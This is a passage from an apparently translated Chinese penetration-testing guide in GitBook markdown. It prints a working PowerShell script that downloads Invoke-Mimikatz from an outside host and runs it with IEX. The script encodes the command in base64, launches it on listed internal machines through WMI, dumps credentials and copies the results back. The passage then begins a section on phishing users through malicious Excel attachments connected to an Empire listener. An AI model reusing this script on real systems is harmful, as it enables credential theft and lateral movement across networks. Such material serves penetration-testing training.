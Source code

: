    ```text
   PS> move-item -path "\\$X\C$\windows\temp\$X.txt" - Destination C:\users\Administrator\desktop\ -force
   ```

以下是完整的脚本代码，和一段附加代码，该代码段将等到远程进程结束后才检索结果:

```text
$command = '$browser = New-Object System.Net.WebClient;IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"));$machine_name = (get-netadapter | get- netipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$PC_IP = @("10.10.20.229", "10.10.20.97")

ForEach ($X in $PC_IP) {
    $proc = invoke-wmimethod -ComputerName $X win32_process -name create -argumentlist ("powershell - encodedcommand $encodedCommand")
    $proc_id = $proc.processId

    do {(Write-Host "[*] Waiting for mimi to finish on $X"), (Start-Sleep -Seconds 2)}
    until ((Get-WMIobject -Class Win32_process -Filter "ProcessId=$proc_id" -ComputerName $X | where
    {$_.ProcessId -eq $proc_id}).ProcessID -eq $null) move-item -path "\\$X\C$\windows\temp\$X.txt" -
    Destination C:\users\Administrator\desktop\ -force
    write-host "[+] Got file for $X" -foregroundcolor "green"
}
```
{% endhint %}

## 4.4 遗漏的环节

还记得我们的网络钓鱼活动吗？当我们忙着渗透服务器和域时，员工们正欣喜地打开钓鱼邮件中的Excel附件。

![xx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.4-1.jpg)

尽管通过前面的过程，我们已经完全控制了 SPH 网络上的所有资源，但如何通过用户终端来达到同样的效果呢？让我们一起来看看。

{% hint style="info" %}
注意：我们切换回 Empire 框架，在该框架中，Front Gun服务器正在监听来自恶意 Excel 软件的传入连接。
{% endhint %}

随便选一台目标主机进行交互，列出有关环境的基本信息：
